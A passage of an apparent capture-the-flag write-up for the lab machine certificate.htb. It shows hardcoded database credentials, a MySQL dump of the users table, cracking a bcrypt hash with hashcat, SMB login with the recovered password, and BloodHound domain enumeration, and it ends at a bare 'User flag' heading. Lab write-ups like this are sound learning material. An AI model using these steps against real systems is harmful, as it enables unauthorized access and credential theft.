 ## Database Credentials

### Found in `C:\xampp\htdocs\certificate.htb\db.php`

```php
$db_user = 'certificate_webapp_user';
$db_passwd = 'cert!f!c@teDBPWD';
```

###  MySQL Dump

```sql
PS C:\xampp\mysql\bin> C:\xampp\mysql\bin\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -D Certificate_WEBAPP_DB -e "SELECT * FROM users;"    
```

>  Found user `sara.b` with bcrypt hash
> Cracked with:

```bash
hashcat -m 3200 -a 0 <hash> /opt/rockyou.txt
```

> Password: `Blink182`

---

## AD Access with sara.b

```bash
nxc smb 10.10.11.71 -u 'sara.b' -p 'Blink182'
```

>  Logged into SMB as `sara.b`

---

##  BloodHound Enumeration

```bash
faketime "$(ntpdate -q 10.10.11.71 | awk '/^[0-9]/ { print $1\" \"$2; exit }')" bloodhound-python -u 'sara.b' -p 'Blink182' -d certificate.htb -ns 10.10.11.71 -c all --zip
```

## User flag